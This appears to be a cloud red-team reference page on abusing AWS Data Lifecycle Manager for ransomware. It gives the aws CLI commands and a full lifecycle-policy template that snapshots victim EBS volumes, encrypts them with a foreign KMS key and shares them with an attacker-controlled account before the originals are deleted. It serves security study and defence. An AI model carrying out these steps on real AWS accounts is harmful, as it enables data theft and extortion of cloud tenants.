# AWS - Data Lifecycle Manager 

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach_live**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

## Data Lifecycle Manger (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

A ransomware attack can be executed by encrypting as many EBS volumes as possible and then erasing the current EC2 instances, EBS volumes, and snapshots. To automate this malicious activity, one can employ Amazon DLM, encrypting the snapshots with a KMS key from another AWS account and transferring the encrypted snapshots to a different account. Alternatively, they might transfer snapshots without encryption to an account they manage and then encrypt them there. Although it's not straightforward to encrypt existing EBS volumes or snapshots directly, it's possible to do so by creating a new volume or snapshot.

Firstly, one will use a command to gather information on volumes, such as instance ID, volume ID, encryption status, attachment status, and volume type. 

```aws ec2 describe-volumes```

Secondly, one will create the lifecycle policy. This command employs the DLM API to set up a lifecycle policy that automatically takes daily snapshots of specified volumes at a designated time. It also applies specific tags to the snapshots and copies tags from the volumes to the snapshots. The policyDetails.json file includes the lifecycle policy's specifics, such as target tags, schedule, the ARN of the optional KMS key for encryption, and the target account for snapshot sharing, which will be recorded in the victim's CloudTrail logs.


```bash
aws dlm create-lifecycle-policy --description "My first policy" --state ENABLED --execution-role-arn arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --policy-details file://policyDetails.json
```

A template for the policy document can be seen here:
```bash
{
  "PolicyType": "EBS_SNAPSHOT_MANAGEMENT",
  "ResourceTypes": [
    "VOLUME"
  ],
  "TargetTags": [
    {
      "Key": "ExampleKey",
      "Value": "ExampleValue"
    }
  ],
  "Schedules": [
    {
      "Name": "DailySnapshots",
      "CopyTags": true,
      "TagsToAdd": [
        {
          "Key": "SnapshotCreator",
          "Value": "DLM"
        }
      ],
      "VariableTags": [
        {
          "Key": "CostCenter",
          "Value": "Finance"
        }
      ],
      "CreateRule": {
        "Interval": 24,
        "IntervalUnit": "HOURS",
        "Times": [
          "03:00"
        ]
      },
      "RetainRule": {
        "Count": 14
      },
      "FastRestoreRule": {
        "Count": 2,
        "Interval": 12,
        "IntervalUnit": "HOURS"
      },
      "CrossRegionCopyRules": [
        {
          "TargetRegion": "us-west-2",
          "Encrypted": true,
          "CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
          "CopyTags": true,
          "RetainRule": {
            "Interval": 1,
            "IntervalUnit": "DAYS"
          }
        }
      ],
      "ShareRules": [
        {
          "TargetAccounts": [
            "123456789012"
          ],
          "UnshareInterval": 30,
          "UnshareIntervalUnit": "DAYS"
        }
      ]
    }
  ],
  "Parameters": {
    "ExcludeBootVolume": false
  }
}
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach_live**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>
